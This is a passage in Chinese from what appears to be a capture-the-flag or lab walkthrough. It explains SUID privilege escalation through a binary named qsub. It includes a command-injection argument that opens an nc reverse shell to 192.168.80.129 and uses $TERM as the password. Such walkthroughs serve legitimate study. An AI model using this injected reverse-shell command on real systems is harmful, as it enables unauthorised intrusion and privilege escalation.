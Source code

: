 另外一提，suid bit 其实设置的是euid，不是uid。并不是真正意义上的pinky用户，只是程序运行时临时借用pinky权限。

[![](assets/1703831476-1faf057a8f99308155a82acf90a32318.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224604-a954709a-a4c6-1.png)

## 八、 shell as user2（suid）

执行suid程序，拼接反弹shell语句，密码为环境变量$TERM的值xterm-256color，可以看到uid是1000。  
（测试过程中，这里如果拼接bash -p虽然可以保留euid，拿到pinky用户权限，可以cd切换目录但是输入命令会无后续回显。如果拼接反弹shell就正常了）

```plain
./qsub '&(nc 192.168.80.129 2211 -e /bin/bash)'
```

[![](assets/1703831476-144948045656b06bb9019920366f04d7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227224617-b146fade-a4c6-1.png)
